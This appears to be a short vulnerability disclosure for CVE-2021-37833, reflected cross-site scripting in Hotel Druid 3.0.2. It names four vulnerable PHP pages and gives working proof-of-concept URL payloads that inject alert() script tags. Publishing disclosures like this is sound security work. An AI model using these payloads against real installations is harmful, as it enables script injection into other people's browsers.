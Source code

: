 # CVE 2021-37833 Hotel Druid 3.0.2 Reflected Cross Site Scripting Vulnerability

A reflected Cross Site Scripting vulnerability exists in multiple pages in version 3.0.2 of the Hotel Druid application that allows for arbitrary execution of JavaScript commands.
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37833

Vulnerable PHP Pages:

crea_modelli.php - cambia_frasi parameter
visualizza_tabelle.php - arbitrary URL parameter
tabella.php - arbitrary URL parameter
storia_soldi.php - arbitary URL Parameter

Vulnerable Payloads

/visualizza_tabelle.php?anno=2021&tipo_tabella=prenotazioni&sel_tab_prenota=tutte&wo03b"><script>alert('xss hotel druid')</script>w5px3=1

/storia_soldi.php?piu17"><script>alert('xss hotel druid')</script>e3esq=1

/crea_modelli.php?anno=2021&id_sessione=&fonte_dati_conn=attuali&T_PHPR_DB_TYPE=postgresql&T_PHPR_DB_NAME=%C2%9E%C3%A9e&T_PHPR_DB_HOST=localhost&T_PHPR_DB_PORT=5432&T_PHPR_DB_USER=%C2%9E%C3%A9e&T_PHPR_DB_PASS=%C2%9E%C3%A9e&T_PHPR_LOAD_EXT=NO&T_PHPR_TAB_PRE=%C2%9E%C3%A9e&anno_modello=2021&lingua_modello=en&cambia_frasi=SIipq85%22%3E%3Cscript%3Ealert(%27xss%20hotel%20druid%27)%3C%2fscript%3Ef9xkbujgt24&form_availability_calendar_template=1

/tabella.php?jkuh3"><script>alert('xss hotel druid')</script>yql8b=1

Discovered by Joe Helle, July 2021
